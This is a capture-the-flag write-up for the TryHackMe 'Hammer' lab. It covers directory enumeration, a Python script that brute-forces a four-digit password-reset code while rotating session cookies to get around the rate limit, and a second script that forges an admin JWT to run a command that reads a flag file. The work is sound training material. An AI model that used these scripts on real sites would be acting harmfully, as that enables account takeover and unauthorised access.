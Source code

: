 ## THM CTF - Hammer

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   hammer.thm
```
Now we can proceed with an Nmap scan.
```
sudo nmap -sS -T4 -p- hammer.thm
sudo nmap -sS -sV -sC -T4 -p22,1337 hammer.thm
```
We’ve found two open ports, but for now, we’re focusing on **HTTP**. We’ll leave the SSH port open for later if we need it.

We can ignore all other Nmap scans for now because we need to test a web application. However, the scan reveals that the ```HTTPOnly flag``` for cookies isn’t set.

Connecting to the site at ```http://hammer.thm:1337```, we find a login page.

Examining the page’s HTML, we read a developer note that should be deleted for security reasons.
```
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```
Keeping this information for later use, we can try to authenticate and analyse the site response to a bad authentication.

The request sends to the server:
* PHPSESSID as cookie
* email
* password

At the bottom of the login page, there is a ```"forgot your password?"``` link.
However, it seems we are at a dead end because we have no clue about any possible email to submit.

We turn back to the Dev Note found before.

We can list directories using ```Gobuster``` or ```Dirb```, but we need to modify the ```common.txt``` file to follow the new pattern. We can easily achieve this by using the sed or awk command.
```
cp /usr/share/wordlists/dirb/common.txt .
sed 's/^/hmr_/' common.txt > common_hmr.txt
```
With this new file, we can launch two different ```Gobuster``` enumerations.
```
gobuster dir -u http://hammer.thm:1337 -w common_hmr.txt
gobuster dir -u http://hammer.thm:1337 -w common.txt -x html,js,txt,php,db,json,log
```
The first one successfully enumerates 4 folders:
* /hmr_css 
* /hmr_images
* /hmr_js
* /hmr_logs  

For now the most interesting is:
* hmr_logs

Visiting this folder, it reveals an ```error.logs``` file that contains some useful information:
* LimitInternalRecursion error with a limit of 10
* user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
* /admin-login
* /var/www/html/locked-down

At least now we have a valid email to use.

The second scan successfully enumerates some interesting files/folders like:
* composer.json - reveals to us that the site use firebase/php-jwt 6.10
* /vendor
* /javascript
* dashboard.php - maybe the landing page after a successful login procedure
* /phpMyAdmin

Now we can try a password recovery with the newest found email:
* tester@hammer.thm

The new page ask for a 4 digit code with a countdown. However submitting a code gives us the opportunity to analyse the request containing 2 parameters:
* recovery code
* s - it represents the number of seconds remaining until the countdown ends when we submitted the form.

This implies that we could potentially control the countdown.

Trying various code, after maybe 9 tries we receive the message:
```
Rate limit exceeded. Please try again later.
```
So the main problem now is the number of attempt for every password reset request.
However we cannot try again, but one way this site can control this behaviour is thanks to ```Javascript``` and ```Cookies```.

We can try to request a new ```Cookie``` deleting the old one. It works. We can reset the password again, however we need a new code, so this is a partial victory.

Open ```BurpSuite``` and analyse the traffic intercepted while submitting the code. ```Send to the repeater```.

In the response header we find the value:
* Rate-Limit-Pending: 6

The server stores the number of our failed attempts to submit the correct code.

While analysing the response, we sent another request with ```s=174```. However the real timer was expired and the server response is:
```
Time elapsed. Please try again
```
We can deduce that this time is controlled server-side.

Analysing all this information, we can deduce that we can’t bypass the timer. However, we might be able to exceed the maximum attempt limit by using a fresh ```Cookie``` before the last one expires. This would give us 9 more tries every time we change the ```Cookie```.

We need to create a script to automate all this process.

<details><summary><strong>brute_OTP_Hammer_THM.py</strong></summary>
  
```python

import requests
# from concurrent.futures import ThreadPoolExecutor

# Define the URLs for password recovery
hammer_ip = 'hammer.thm'
hammer_port = '1337' # default 80
hammer_full = f'{hammer_ip}:{hammer_port}'
hammer_url = f'http://{hammer_ip}:{hammer_port}'
recovery_url = f'{hammer_url}/reset_password.php'

# Define password recovery credentials
credentials = {
    'email': 'tester@hammer.thm'
}

# Function to get a fresh cookie
def get_cookie(url,payload):
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	session = requests.Session()
	response = session.post(url, headers=headers, data=payload)
	return session, session.cookies.get("PHPSESSID", None)

# Function to brute force OTP
def submit_code(session, url, code):
	payload={
		'recovery_code': code,
		's': '160'
	}
	headers={
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
	}

	response = session.post(url, headers=headers, data=payload)
	return response



# Code for using only one thread
# Get first cookie
session, cookie = get_cookie(recovery_url, credentials)
for i in range(10000):
	recovery_code = f"{i:04d}" # Generate codes 0000-9999
	print(f"Trying...{recovery_code}")
	
	# Submit the code
	response = submit_code(session, recovery_url, recovery_code)
	
	#Get a new cookie if the Rate-Limit-Pending = 1
	if int(response.headers['Rate-Limit-Pending']) <2:
		 session, cookie = get_cookie(recovery_url,credentials)

	# Break the loop if we find a valid code and print the cookie to use
	if "Invalid" not in response.text and response.status_code in (302,200):
		print(f"FOUND------ valid code found {recovery_code}")
		print(f"USE this cookie: {cookie}")
		break


"""
# Worker function for threads
def worker(recovery_code):
    # Create a new session and fetch a cookie for this thread
    session, cookie = get_cookie(recovery_url, credentials)

    # Attempt the recovery code
    response = submit_code(session, recovery_url, recovery_code)

    if "Invalid" not in response.text and response.status_code in (302,200):
        print(f"Valid code found by thread: {recovery_code}. Cookie {cookie}")
        return 200

# Multithreaded execution
with ThreadPoolExecutor(max_workers=10) as executor:
    codes = [f"{i:04d}" for i in range(10000)]  # Generate codes 0000-9999
    results = list(executor.map(worker, codes))
    if results == 200:
        exit()

# Filter out None results to find valid codes
valid_codes = [code for code in results if code]
print("Valid codes found:", valid_codes)
"""
```

</details>

The code is written for a single thread, which proved sufficient to find the code within the specified timeframe of 180 seconds. However, we can leverage the assistance of the AI to develop a multithreaded code that can potentially enhance its speed.

We have found a valid ```Cookie```, so we can navigate to recovery page, insert the email, change the ```Cookie```, refresh and now we can change the password.

After logging in we find the ```first flag```, however after a little while, we are automatically logged out.

Analysing the page content, we discover a script that checks for a specific ```Cookie``` ```persistenceSession```. If the ```Cookie``` is expired, it prompts our logout.
We can simply change the ```Cookie``` expiration time to obtain a longer session.

Now we need to find a way to read the content of the file ```/home/ubuntu/flag.txt```, however the console accept only ```ls``` as command.

Diving deep in the ```Cookie``` session we find a ```token``` that seems like a ```JWT```.

Using [JWT.io](https://jwt.io) we can identify it as a token for a normal user.

We can change the ```role``` to ```admin``` but we do not know the secret code of the key:
```
"kid": "/var/www/mykey.key"
```
However while using the console and sumbitting the ```ls``` command, we noticed a ```188ade1.key``` that can be used to produce a new ```JWT```.

We can download it a change the ```JWT``` accordingly using the secret inside.
```
wget http://hammer.thm:1337/188ade1.key
```
[JWT.io](https://jwt.io)
```
"kid": "/var/www/html/188ade1.key"
"role": "admin"
"secret" : 188ade1.key secret
```
Now we need to use ```BurpSuite``` to submit a command.
Sending the request to the repeater, we need to change the old ```JWT``` to the new one, both in ```token``` field and ```Authorisation: Bearer```, changing also the ```command```.
```
"command": "cat /home/ubuntu/flag.txt"
```
This way we can obtain the second flag in the response.

Note: to generate a new JWT token, we can use the python code attached and not only the site [JWT.io](https://jwt.io).


<details><summary><strong>generate_JWT_Hammer_THM.py</strong></summary>
  
```python

import jwt
from datetime import datetime

# Secret key
secret_key = "INSERT SECRET KEY HERE"

# JWT header'
header = {
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/html/188ade1.key"
}

# Set JWT Issued at Time and Expiration Time

iat = int(datetime(2025, 1, 28, 18, 0).timestamp())
exp = int(datetime(2025, 1, 28, 19, 0).timestamp())

# Payload with the 'admin' role
payload = {
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": iat, # change this Value to be Issued at Time that you need
    "exp": exp, # change this value to be coherent with expiration date
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "admin"
    }
}

# Encode the JWT
token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)

# Print the token
print(token)

```
</details>

